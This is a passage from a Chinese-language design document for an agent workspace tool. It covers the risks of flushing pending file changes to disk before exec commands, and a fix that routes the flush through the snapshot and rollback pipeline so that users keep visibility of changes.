- [ ] 测试：有 pending → flush 后 exec；冲突 → 拒绝；无 pending → 零开销（待 Web 测试基建）

### 18.4 风险

- **性能**：每次 exec 都查 pending（SQLite 查询，毫秒级）；仅在有 pending 时写盘
- **语义变化**：exec 从“纯读/执行”变为“可能写盘”。但 exec 本身已在透明+审批
  信任模型内，被批准跑 `cargo test` 的命令理应测试当前代码
- **与 UI 手动同步按钮的关系**：不冲突，flush 只处理该 root 的 pending，
  其余变更仍由用户通过变更面板控制

### 18.5 可见性修复：flush 走快照管道（2026-08-14）

**问题**：初版 flush 直接调 `syncToDisk`，跳过了 `createApprovedSnapshotForPaths`。
后果：①被 flush 的文件不进底部“本轮修改”卡片（卡片锚定 snapshotId）；②pending
被清后 onLoopComplete 的 auto-apply 判为 `no_pending_paths` 直接 skip，快照永远不建；
③变更既无卡片也无回滚记录，用户完全失去可见性。

**修复**：flush 改为与 auto-apply 相同的完整管道：

```text
1. detectSyncConflicts 预检 → 冲突拒绝执行
2. createApprovedSnapshotForPaths(paths, 'auto-flush before exec')  ← before/after + 回滚
3. syncToDisk 落盘
4. 成功后 markSnapshotAsSynced
5. snapshotId 记入 execFlushSnapshots（按 workspaceId 分组）
6. refreshPendingChanges(true) 刷新 pending 面板
```

`conversation.store` 的 `onLoopComplete` 在 auto-apply 之后排空
`drainExecFlushSnapshotIds(workspaceId)`，把 exec flush 的快照并入本轮的
`run_changes` 卡片（多次 exec 取最新 snapshotId 锚定）。auto-apply 与 exec flush
同时存在时，exec flush 的快照胜出（它覆盖的路径是两批的并集场景中已落盘的部分）。

